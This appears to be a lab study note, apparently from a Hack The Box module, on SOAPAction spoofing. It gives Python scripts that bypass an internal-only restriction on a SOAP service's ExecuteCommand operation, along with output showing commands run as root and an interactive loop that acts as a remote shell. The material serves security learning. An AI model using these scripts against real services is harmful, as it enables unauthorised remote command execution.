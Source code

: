 ```yaml
---
title: c-SOAPAction Spoofing
draft: false
tags:
  - soap
  - soapaction
---
```

SOAP messages towards a SOAP service should include both the operation and the related parameters. This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed to use an additional HTTP header called **SOAPAction**, which contains the operation's name. The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.

## Exploitation

Suppose we are assessing a SOAP web service, whose WSDL file resides in `http://<TARGET IP>:3002/wsdl?wsdl`.

The first thing to pay attention is the SOAPAction operation called `ExecuteCommand`:

```xml
<wsdl:operation name="ExecuteCommand"> <soap:operation soapAction="ExecuteCommand" style="document"/>
```

Let us take a look at the parameters.

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

What is interesting is that there is a `cmd` parameter.

Let us build a Python script to issue requests (save it as `client.py`). Note that the below script will try to have the SOAP service execute a `whoami` command.

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```


The Python script can be executed, as follows.

```shell-session
jadu101@htb[/htb]$ python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning _This function is only allowed in internal networks_. But we don't have access to the internal network.

This is way SOAPAction Spoofing attack comes to place.

Let us build a new Python script for our SOAPAction spoofing attack (save it as `client_soapaction_spoofing.py`).

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a `whoami` command.

Let us execute the new script.

```shell-session
jadu101@htb[/htb]$ python3 client_soapaction_spoofing.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

Above successfully executed `whoami` command. 

If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as `automate.py`).

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

You can execute it as follows.

```shell-session
jadu101@htb[/htb]$ python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 
```